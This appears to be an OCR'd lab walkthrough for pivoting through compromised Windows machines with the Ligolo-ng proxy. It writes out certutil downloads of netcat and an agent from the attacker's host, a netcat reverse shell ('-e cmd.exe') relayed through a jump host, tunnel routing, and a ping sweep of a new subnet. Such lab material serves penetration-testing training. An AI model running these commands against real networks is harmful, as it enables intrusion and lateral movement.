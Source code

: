 ```bash
| Kali Machine                                                |
| IP: 192.168.232.153                                         |
| [+] Logolo-ng PROXY                                         |
+------------------------------------------------------------+

#Create Listener in Ligolo Proxy:  
`listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp` 

#upload Netcat to Ligolo-2 via Jump Host (Ligolo-1):
#Use Ligolo-1’s IP and port 8080 to transfer files.  
`python -m http.server -port 80` # on kali
`certutil.exe -urlcache -f "http://192.168.8.129:8080/nc.exe" nc.exe` #on Ligolo-2 

#Create a New Listener for Reverse Shell:  
#we will use the same technique from earlier we will create a new listener and execute Netcat along with the IP of the Ligolo-1 Machine(Jump Host) and the port we specify with the listener
`listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:444 --tcp`  

#Execute Reverse Shell from Ligolo-2 to Kali:
`nc -lnvp 444` # on kali 
`nc 192.168.8.129 4444 -e cmd.exe`  #on Ligolo-2(Use Ligolo-1 IP and configured port)
'++++++++++++++++++++++++++++++++++++++++++++++++'
successfully gaining access to Ligolo-2 machine |
'++++++++++++++++++++++++++++++++++++++++++++++++'
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#After gaining access to Ligolo-1 and Ligolo-2, the next step is to pivot and gain access to Ligolo-3, which is in the subnet `192.168.119.0/24`

#Now we need to utilize the Ligolo-2 Machine and make it a Jump Host for us to reach the Ligolo-3 Machine >>

################################################
2. `Ligolo-2`: `192.168.119.128` & `192.168.8.130` 
################################################

#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server -port 80 ` # on kali 
`certutil.exe -urlcache -f "http://192.168.8.129:8080/agent.exe" agent.exe` #on Ligolo-2 , upload agent to Ligolo-2 via Jump Host (Ligolo-1)

#2.Setup Tun Interface on Kali:
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo-2`  
`sudo ip link set ligolo-2 up`

#4.execute Ligolo Agent to Compromised Machine:  
# To run Ligolo's Agent on the Ligolo-2 Machine, we'll adopt a strategy similar to the reverse shell. we must also create a new listener on Ligolo-1. This listener on Ligolo-1 will be essential for receiving the connection on our Ligolo proxy and ensuring the connection is established successfully.
`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp` 
`.\agent.exe -ignore-cert -connect 192.168.8.129:11601` # on ligolo-2

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #2 Ligolo-2 
`ifconfig` #192.168.119.128
`start --tun ligolo-2` #establishing a connection between kai & Ligolo-2 

#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.119.0/24 dev ligolo-2`  

#7.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.119.$i | grep "from" &) ;done 


```